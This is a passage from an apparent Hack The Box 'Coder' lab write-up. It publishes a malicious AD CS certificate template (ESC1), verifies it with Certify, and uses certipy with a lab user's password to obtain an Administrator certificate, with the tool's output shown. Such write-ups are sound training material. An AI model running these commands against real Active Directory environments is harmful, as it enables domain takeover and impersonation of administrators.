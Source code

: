 ```json
                         ]
}
```
By uploading the json to the dc we can then issue the template using ADCSTemplate:

```powershell
New-ADCSTemplate -DisplayName Evil_Empire_Laughing_All_The_Way_To_the_Bank -JSON (Get-Content .\ESC1.json -Raw) -Publish -Identity "CODER\PKI Admins"
 ```
 
We then can verify the existance of this template using Certify.exe.

```
.\CertifyExecAssemblyNimPackt.exe find
```

![](images/54d00319-e190-4a7a-b0d3-6a37db869164.png)

And now it's time to abuse it.
Back on our pwnbox we can use certipy to obtain the Administrator certificate.
```zsh
certipy req -username e.black@coder.htb -password ypOSJXPqlDOxxbQSfEERy300 -ca coder-DC01-CA -template 'Evil_Empire_Laughing_All_The_Way_To_the_Bank' -upn 'administrator@coder.htb'  -debug

[+] Resolved 'CODER.HTB' from cache: 10.10.11.207
[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.10.11.207[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.10.11.207[\pipe\cert]
[*] Successfully requested certificate
[*] Request ID is 30
[*] Got certificate with UPN 'administrator@coder.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```
